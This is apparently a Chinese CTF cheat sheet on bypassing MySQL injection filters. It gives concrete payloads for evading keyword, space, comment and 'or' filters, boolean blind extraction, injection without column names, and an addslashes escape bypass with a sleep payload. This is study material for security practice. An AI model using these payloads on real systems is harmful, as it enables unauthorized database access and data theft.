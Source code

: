 ## **大写绕过**
select被过滤，试试Select
```
mysql 8.0.19新增语句table

table table_name

过滤select可以使用table代替
```

^
## **编码绕过**
is_numeric($_GET['id']) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
+空格过滤可以利用/**/代替空格。
```
有的时候是union select被过滤，union/**/select也可以绕过
```
编码绕过
```
%09  制表符table

%0a
%0b
%0c
%0d
```


利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
```
1、#编码用%23
2、将后面的单引号闭合即可。'or(id=26)and'1'='1
```
^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名，不知道字段名。分析字段数，再统一查某个字段的所有值。
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u
select u.2 from (select 1,2 union select * from users) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用``包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
已知可以布尔盲注，但不知道字段名，直接无列名注入
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))
```






^
^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数addslashes绕过**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```

^
如果是数值传参，如果是)闭合，直接不传入"和\即可绕过：
```
addslashes($id);
$res = $conn->query("SELECT `username` FROM ctfshow_users WHERE id = ($id)");

?id=222)%20union%20select%20group_concat(table_name)%20from%20mysql.innodb_table_stats%20where%20database_name%20=%20database()%23
```

^
## **where后= like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
```